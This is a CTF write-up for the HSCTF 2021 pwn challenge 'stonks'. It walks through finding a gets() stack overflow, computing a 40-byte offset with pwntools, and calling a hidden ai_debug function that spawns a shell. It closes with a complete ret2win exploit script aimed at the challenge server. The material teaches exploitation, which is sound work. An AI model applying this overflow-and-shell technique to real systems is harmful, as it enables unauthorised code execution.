 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | stonks Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: pwn
challenge: stonks
tags: "pwn, taz, twh, python"
---
```


<h1 class="heading card-title white-text">Hsctf 2021</h1>

## stonks
> Solved By : Taz and thewhiteh4t

![](https://i.imgur.com/Xthi7zA.png)

* after disassembling :

![](https://i.imgur.com/sUMBjXD.png)

* vuln function disassembled :

![](https://i.imgur.com/u5piK7j.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/QLOSyKX.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/0WKx65a.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/ONyEGVn.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/PIRlX9z.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/GNc8x6K.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/FN6LiSU.png)
